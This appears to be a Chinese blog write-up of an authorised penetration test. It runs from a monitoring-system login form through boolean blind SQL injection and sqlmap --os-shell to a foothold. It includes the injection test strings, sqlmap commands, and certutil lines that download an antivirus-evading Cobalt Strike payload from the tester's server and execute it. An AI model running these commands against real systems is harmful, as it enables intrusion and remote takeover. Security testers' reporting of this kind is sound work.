

# 记一次从登录框到内网横向
## 前言
接到公司通知要对某某行业做渗透测试，挖一些尽可能高危的漏洞，于是便有了接下来的故事。
## 0x01 信息收集
首先收集了十几个该行业相关的网站，然后一个个做信息收集，先列出来可利用的点。

1. 某某公司为YouDianCMS（可能存在注入）。
2. 某集团OA，使用的是通达OA。
3. 某管理系统，存在登录框，无验证码。
4. 某监控管理系统，存在登录框，无验证码。
5. 某收费系统，使用的是若依管理系统。

## 0x02 漏洞利用
1. 习惯性先试一下通达OA，通达OA的利用工具比较方便，若存在漏洞可以一键getshell,不过利用失败了。

2. 测试YouDianCMS，之前收集的youdianCMS的sql注入的POC，直接利用，但是还是不存在该漏洞。

3. 测试若依管理系统：

	1) 测试默认口令：admin/admin123，失败。

	2) 测试shiro反序列化漏洞。

均失败了

4. 测试某管理系统：

爆破密码。爆出来了弱口令admin/456123，但是登录进去后找了一圈没有geshell的点，一个弱口令肯定没法交差。

5. 测试某监控管理系统的登录框

最后一个点了，再不行要重新打点了，本来也没报什么希望，登录框做渗透测几乎没挖到过什么大的漏洞。

首先测试弱口令，爆破了一圈没有弱口令，扫目录也没扫出什么东西，JS代理里也没泄露有用的信息，突然想到还没试注入，这一试，果然有问题。

当loginName的值后边修改为`and'q'='q"`时，页面返回密码错误，修改为`and'u'='k"`时，页面返回用户不存在，说明页面存在布尔盲注。
sqlmap一把梭：

	sqlmap.py -r 1.txt --dbs --random-agent --proxy=http://127.0.0.1:7890

跑出来了数据库，但是跑表的时候出错了，不知道为什么跑不出来。

直接获取shell试试：

	sqlmap.py -r 1.txt --os-shell --random-agent --proxy=http://127.0.0.1:7890

可以执行命令，但是回显的巨慢。

本来想着已经成功了，接下来的拿shell就水到渠成，没想到又曲折了一番。

1. CS直接生成powershell命令，然后令目标系统执行，执行完毕一直没上线，然后想着让sqlmap回显一下看看有什么问题，等了十几分钟页面才回显完，应该是有杀软，检测到该命令为危险命令，就给拦截了。

2. 直接生成exe肯定也不行，这时候就要让大佬帮忙了。

免杀马到手，Windows通过certutil命令进行远程下载。
先把免杀马上传到VPS上，然后开一个http服务。
然后在shell中执行：

	certutil -urlcache -split -f http://xx.xx.xx.xx/cs.exe dll.exe
然后执行`dll.exe`，这回想着肯定能成功，结果等了半天还是没反应，一脸懵逼，看了下VPS，有下载记录呀。

难道被杀了？想执行一下`dir`看看目录下有没有该文件，但是目录下有几百个文件，要等全部都回显要等半小时。
最后想了想是不是该目录下没有权限，于是在目标系统的D盘新建一个dll文件夹，然后把免杀马写到这里。

	certutil -urlcache -split -f http://xx.xx.xx.xx/cs.exe d:\dll\dll.exe

然后执行：`d:\dll\dll.exe`，终于上线。

## 0x03 横向攻击
看一下目标机器有哪些敏感文件可利用，收获颇丰呀。

fscan横向一波，发现了几个站点，但是没有扫到能直接利用的漏洞。

由于领导说的只是让挖到漏洞，所以要问下领导能否进行横向攻击，先点到为止。

## 0x04 总结
之前做渗透每次遇到登录框都比较头疼，因为登录框可利用的点比较少，也没在登录框上挖到过什么大的漏洞，但是本次运气还是比较好的，总算可以交差了。
